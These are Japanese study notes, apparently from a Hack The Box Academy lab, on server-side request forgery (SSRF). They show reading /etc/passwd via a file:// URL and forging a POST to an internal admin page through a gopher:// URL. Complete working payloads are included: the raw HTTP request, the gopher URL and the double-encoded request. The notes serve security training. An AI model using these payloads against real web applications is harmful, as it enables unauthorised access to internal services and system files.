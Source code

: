 ### LFI
POSTリクエストに、「file://」を利用することによって、Localfileを読み出すことだできる
![HTTP POST request to /index.php with date parameter; response shows contents of /etc/passwd file.](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_3.png)

### gopherプロトコル
- SSRFを使用して制限された内部エンドポイントにアクセスできる
- http:// URLスキームではPOSTリクエストを送信する方法がないため、GETリクエストに制限される
- ご覧のとおり、管理エンドポイントはログインプロンプトによって保護されている
	- HTMLフォームから、`/admin.php`にPOSTリクエストを送信し、adminpw POSTパラメーターにパスワードを含める必要があると推測できる
	- しかし、`http://` URLスキームを使用してこのPOSTリクエストを送信する方法はない
　- 代わりに、gopher URLスキームを使用して、TCPソケットに任意のバイトを送信できる
	　- このプロトコルを使用すると、HTTPリクエストを自分で構築することでPOSTリクエストを作成できる

![HTTP POST request to /index.php with date parameter; response shows Admin Dashboard login form.](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_4.png)

HTTPだとこんな感じだよね
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

これをgopherにする
- gopherにするときのポイント
	- すべての特殊文字をURLエンコードする必要がある
	- データにgopher URLスキーム、ターゲットホストとポート、およびアンダースコアをプレフィックスとして付ける必要があり
```sh
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

ウェブアプリケーションがこのURLを処理すると、指定されたバイトがターゲットに送信される
- 有効なPOSTリクエストを表すようにバイトを慎重に選択したため、内部ウェブサーバーはPOSTリクエストを受け入れ、それに応じて応答する
- URLをHTTP POSTパラメーターdateserver内で送信しているため、dateserver自体がURLエンコードされているため、ウェブサーバーがURLを受け入れた後に正しい形式であることを保証するために、URL全体を再度URLエンコードする必要がある
- そうしないと、「Malformed URL」エラーが発生する
- gopher URL全体をもう一度URLエンコードした後、最終的に次のリクエストを送信できる

```sh
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

- 内部管理エンドポイントは提供されたパスワードを受け入れ、管理者ダッシュボードにアクセスできる
  ![HTTP POST request to /index.php with encoded admin.php data; response shows Admin Dashboard with login prompt.](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_5.png)
